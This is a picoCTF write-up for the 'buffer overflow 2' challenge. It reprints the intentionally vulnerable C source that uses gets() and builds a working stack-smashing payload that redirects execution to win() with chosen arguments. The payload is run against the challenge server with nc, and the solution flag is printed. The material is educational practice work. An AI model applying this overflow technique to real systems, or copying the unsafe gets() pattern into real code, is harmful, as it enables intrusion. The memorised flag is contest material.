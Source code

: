 **Description**

Author: Sanjay C / Palash Oswal

Control the return address and arguments

Hints
(none)

**Tools**
This writeup is a large continuation of [buffer overflow 1](./binary/bufferoverflow1(200).md).
Please see this writeup if you don't understand the leadup to this point.

In this writeup and subsequent binary exploitation writeups, I will be using the tools [Ghidra](https://github.com/NationalSecurityAgency/ghidra), [GDB](https://en.wikipedia.org/wiki/GNU_Debugger), and an extension for GDB called [pwndbg](https://github.com/pwndbg/pwndbg).
This tools together provide excellent static and dynamic analysis of a binary. 
Another tool to look at is radare2, however I did not use it for this writeup.
This competition is an excellent place to learn how to use these programs, however I will not be teaching them in entirety.

**Research**

Lets open the source and see what we need to get

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

This looks very similar to the last problem, except for one thing. On running the win funtion, we need to make sure the funciton gets its arguments as well. 
Lets look back to the stack diagram given in the last writeup to see what we may need to do to accomplish this.

![Image](https://www.secpod.com/blog/wp-content/uploads/2013/12/Untitled123.png)

Arguments are stored after EIP, so the next subsequent bytes should be our 2 arguments that need to be passed into the function as parameters. The arguments as shown in the source are ```0xcafef00d``` and ```0xf00df00d```

**Exploit**

Make sure to mark vuln as executable with ```chmod +x vuln```

Set up GDB with

```gdb vuln```

add your breakpoints at the locations that will help you solve the problem

```layout asm``` might be helpful to look for assembly that you want to set a breakpoint at to look at the memory at that time. 
The ```s``` command can step though your program one instruction at a time, or type a number after s to step multiple instructions.

Your varible is 100 characters long, and then after that you have the rest of your code
This command should try and jump to 0x63636363:

```r <<< $(python2 -c 'print("a"*100 + "b"*12 + "cccc")')```

Now, print the locaiton of win()

```
pwndbg> p *(win)
$1 = {<text variable, no debug info>} 0x8049296 <win>
```

Lets go to ```0x8049296```

```r <<< $(python2 -c 'print("a"*100 + "b"*12 + "\x96\x92\x04\x08")')```

Now, this doesn't get us our flag, as we still dont have our arguments put in however to verify that this works we can see that our test flag is in memory at EAX.

EBP is the function pointer, and variables and arguments are based off of that
In this case, the assembler says that 0xcafef00d should be at EBP + 8 and 0xf00df00d should be at EBP + 12
EBP points to the spot in memory of EIP
Variable, extra space, EIP, EBP + 4, EBP + 8, EBP + 12

Lets set our arguments now

```r <<< $(python2 -c 'print("a"*100 + "b"*12 + "\x96\x92\x04\x08" + "cccc" + "\x0d\xf0\xfe\xca" + "\x0d\xf0\x0d\xf0")')```

This gets us our test flag printed!
Lets test it outside of GDB

```python2 -c 'print("a"*100 + "b"*12 + "\x96\x92\x04\x08" + "cccc" + "\x0d\xf0\xfe\xca" + "\x0d\xf0\x0d\xf0")' | ./vuln```

Finally, lets get the flag from the challenge server

```python2 -c 'print("a"*100 + "b"*12 + "\x96\x92\x04\x08" + "cccc" + "\x0d\xf0\xfe\xca" + "\x0d\xf0\x0d\xf0")' | nc saturn.picoctf.net 56595```

This gets us our flag!
It is: ```picoCTF{argum3nt5_4_d4yZ_eb489c7a}```
